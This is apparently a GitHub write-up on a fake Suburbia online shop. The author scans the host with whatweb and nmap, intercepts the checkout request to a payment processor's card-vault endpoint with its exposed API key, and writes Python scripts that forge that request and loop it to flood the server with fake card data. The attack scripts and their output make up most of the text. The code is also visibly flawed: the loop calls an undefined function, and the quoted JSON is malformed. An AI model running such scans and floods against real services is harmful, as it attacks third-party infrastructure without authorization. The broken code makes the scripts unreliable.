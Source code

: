 
The real page looks different to the fake one, on one hand the head of the page you can see options like services, credits and account: 

![](https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/2.png)

On the other hand the fake page has no account section and also its showing suspicious tags, for example "Trusted Store", purchase history from other users and last but not least really cheap price tags. 

![](https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/3.png)

There are also some interesting things like incusted data from other sites such as "facebook, yahoo and analytics.yahoo"; And the most important warning, the fake URL:
Starting point: https://suburbiashop.shop

![](https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/4.png)

First we need to obtain the ip address, I got it by ussing whatweb:

```c
❯ whatweb https://suburbiashop.shop/
https://suburbiashop.shop/ [200 OK] Cookies[PHPSESSID,_fbs_fbp,axwrt,first_http_referer,first_visit_time,landing_page,order_utm_history,shop_checkout_visit_id,shop_global_visit_id,shop_global_visit_session,shop_keep_alive,utm_campaign,utm_content,utm_medium,utm_source,utm_term], Country[UNITED STATES][US], Email[services@jerrewe.shop], HTML5, HTTPServer[cloudflare], IP[104.18.4.221], Open-Graph-Protocol[website], Script[application/javascript,application/ld+json,text/javascript,text/x-template], Title[suburbia.com.mx], UncommonHeaders[x-trace-id,execution-time,trace_id,cf-cache-status,cf-ray]
```

Now we can send an ICMP trace to validate if we are against a linux or windows server:

```bash
❯ ping -c 1 104.18.4.221
PING 104.18.4.221 (104.18.4.221) 56(84) bytes of data.
64 bytes from 104.18.4.221: icmp_seq=1 ttl=59 time=36.4 ms
```

Let's also find what services are running in the server

```bash
❯ sudo nmap -p- --open -n -Pn --min-rate 5000 104.18.4.221
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-04 20:49 EDT
Nmap scan report for 104.18.4.221
Host is up (0.63s latency).
Not shown: 65527 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
2052/tcp open  clearvisn
2082/tcp open  infowave
2087/tcp open  eli
2095/tcp open  nbx-ser
8080/tcp open  http-proxy
8443/tcp open  https-alt
```

I'll jump right to the main functionality, as we know, the page its impersonating `suburbia` their purpose is  to steal user's data. Let's intercept the payment requests to see where the data is going:

!(https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/1.png)

```r
POST /cvault/credit-card/temporal HTTP/2
Host: ppmcc.dlocal.com
Content-Length: 180
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
X-Fields-Api-Key: f8e7fd3b-3450-4ca5-ac49-101712109df6
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: application/json
X-Uow: FI-jyrAs1743814948808
Origin: https://static.dlocal.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://static.dlocal.com/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
	"expiration_month":"09",
	"expiration_year":"2029",
	"holder_name":"John Doe",
	"pan":"1233313133313111112",
	"key":"f8e7fd3b-3450-4ca5-ac49-101712109df6",
	"country_"cvv":"691"code":"MX",
}
```

Here we notice that we are sending a post request to upload the data to:

```js
POST /cvault/credit-card/temporal HTTP/2
Host: ppmcc.dlocal.com
```

The json format is getting the input data as:

```json
{
	"expiration_month":"09",
	"expiration_year":"2029",
	"holder_name":"John Doe",
	"pan":"1233313133313111112",
	"key":"f8e7fd3b-3450-4ca5-ac49-101712109df6",
	"country_"cvv":"691"code":"MX",
}
```

With this in mind we can saturate the server by sending some trash data, just to make fun of this attackers, so lets build a python script with the required headders to impersonate the POST requests: 

```python
import requests
import random
import string
import uuid

# Random data generator function
def generate_data():
    return {
        "expiration_month": f"{random.randint(1, 12):02d}",
        "expiration_year": str(random.randint(2025, 2030)),
        "holder_name": random.choice(["John Doe", "Alice Smith", "Carlos Pérez", "Maria Garcia"]),
        "pan": "".join([str(random.randint(1, 9))] + [str(random.randint(0, 9)) for _ in range(15)]),
        "key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
        "country_code": "MX",  # corregido el error en "country_"cvv"
        "cvv": str(random.randint(100, 999))
    }

# Required headders
headers = {
    "Sec-Ch-Ua-Platform": "\"Linux\"",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": "\"Chromium\";v=\"133\", \"Not(A:Brand\";v=\"99\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "X-Fields-Api-Key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "X-Uow": "FI-" + ''.join(random.choices(string.ascii_letters + string.digits, k=20)),
    "Origin": "https://static.dlocal.com",
    "Sec-Fetch-Site": "same-site",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://static.dlocal.com/",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

# Endpoint URL
url = "https://ppmcc.dlocal.com/cvault/credit-card/temporal"

# Send POST request
def send_data():
    data = generate_data()
    response = requests.post(url, json=data, headers=headers)
    print("Status Code:", response.status_code)
    print("Response Body:", response.text)

if __name__ == "__main__":
    send_data()
```

```bash
❯ python3 poc.py
Status Code: 200
Response Body: {"token":"CV-d6646a6d-9d48-4a72-b803-301fb23e96de"}
```

Great, our request it's working so lets make a forloop to send the random generated data  in range of 1 to 100:

```python
import requests
import random
import string
import uuid

# Loop range function (For spamming requests)
def loop():
	for i in range (1,100):
		enviar_datos()
		
# Random data generator function
def generate_data():
    return {
        "expiration_month": f"{random.randint(1, 12):02d}",
        "expiration_year": str(random.randint(2025, 2030)),
        "holder_name": random.choice(["John Doe", "Alice Smith", "Carlos Pérez", "Maria Garcia"]),
        "pan": "".join([str(random.randint(1, 9))] + [str(random.randint(0, 9)) for _ in range(15)]),
        "key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
        "country_code": "MX",  # corregido el error en "country_"cvv"
        "cvv": str(random.randint(100, 999))
    }

# Required headders
headers = {
    "Sec-Ch-Ua-Platform": "\"Linux\"",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": "\"Chromium\";v=\"133\", \"Not(A:Brand\";v=\"99\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "X-Fields-Api-Key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "X-Uow": "FI-" + ''.join(random.choices(string.ascii_letters + string.digits, k=20)),
    "Origin": "https://static.dlocal.com",
    "Sec-Fetch-Site": "same-site",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://static.dlocal.com/",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

# Endpoint URL
url = "https://ppmcc.dlocal.com/cvault/credit-card/temporal"

# Send POST request
def send_data():
    data = generate_data()
    response = requests.post(url, json=data, headers=headers)
    print("Status Code:", response.status_code)
    print("Response Body:", response.text)

if __name__ == "__main__":
	loop()
```

```bash
❯ python3 poc.py
Status Code: 200
Response Body: {"token":"CV-e0e9537a-3610-48ec-a585-c2fd08d3196b"}
Status Code: 200
Response Body: {"token":"CV-9ad7ca06-6921-4c9e-bb51-0c5799816ede"}
Status Code: 200
Response Body: {"token":"CV-9d245d3a-8ff2-4aa4-bba9-292ce1fcde2b"}
Status Code: 200
Response Body: {"token":"CV-63156489-7d11-480b-a755-03ef3c8fb539"}
Status Code: 200
Response Body: {"token":"CV-a20f92ca-5c08-460b-9d1c-17d9ebad5535"}
Status Code: 200
Response Body: {"token":"CV-c1dae9b2-6d76-4ad1-80b2-a2345f2ee86d"}
Status Code: 200
Response Body: {"token":"CV-1a4ab6c9-2b8b-49d2-ba7c-b8ddf38f713d"}
Status Code: 200
Response Body: {"token":"CV-98729a6f-e7f6-424d-9a23-cedec3cad999"}
```

Cool, thats how you trick a scammer ;)

# PWNED BY ZLCube

